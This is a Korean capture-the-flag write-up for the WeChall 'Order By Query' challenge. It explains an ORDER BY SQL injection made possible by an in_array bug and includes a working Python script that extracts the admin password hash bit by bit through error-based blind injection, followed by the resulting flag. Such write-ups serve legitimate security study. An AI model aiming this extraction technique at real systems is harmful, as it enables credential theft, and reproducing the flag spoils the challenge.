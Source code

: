 # [WeChall] Order By Query - Writeup

### 1. SQL Injection 포인트는 `by` 파라미터다.

`in_array` 함수의 버그로 인해 맨 앞의 숫자만 일치하면, 그 다음은 문자열이 들어와도 참이 된다.

즉, `Order By` 절에 SQLi가 가능하다.

___

### 2. Error Based SQL Injection을 사용한다.

서브쿼리로 `password`를 가져와서 `if`문으로 참, 거짓을 구분한다.

그리고 참이면 `1`을 반환하고, 거짓이면 `(select 1 union select 2)`를 반환해서 에러를 내서 출력 값을 기준으로 구분해준다.

___

### 3. 알아내야 하는 값은 md5 해시된 값이다.

즉, `[0-9a-f]{32}` 포맷이기에 한 글자당 4번의 쿼리 전송으로 추출이 가능하다.

___

``` python
import urllib.parse, urllib.request

SESSION = '**secret**';

def inject(a, b):
	url = 'http://www.wechall.net/challenge/order_by_query/index.php?by=1,if('\
			'mid(lpad(conv(mid((select+password+from+users+where+username=0x41646D696E+limit+1),' + str(a + 1) + ',1),16,2),4,0),' + str(b + 1) + ',1)=0x31' \
		',1,(select+1+union+select+2))+DESC+limit+1%23'
	headers = {
		'Cookie':'WC=' + SESSION
	}

	req = urllib.request.Request(url, None, headers)
	res = str(urllib.request.urlopen(req).read())

	if 'Aaron A Aaronson' in res:
		return '1'
	else:
		return '0'

def main():
	pw = ''
	for a in range(0, 32):

		temp = ''
		for b in range(0, 4):
			temp += inject(a, b)

		pw += hex(int(temp, 2))[2:].upper()
		print('Password:', pw)

if __name__ == '__main__':
	main()
```
```
Password: 3C3CBEB0C8ADC66F2922C65E7784BE14
```

___

## Answer

flag: `3C3CBEB0C8ADC66F2922C65E7784BE14`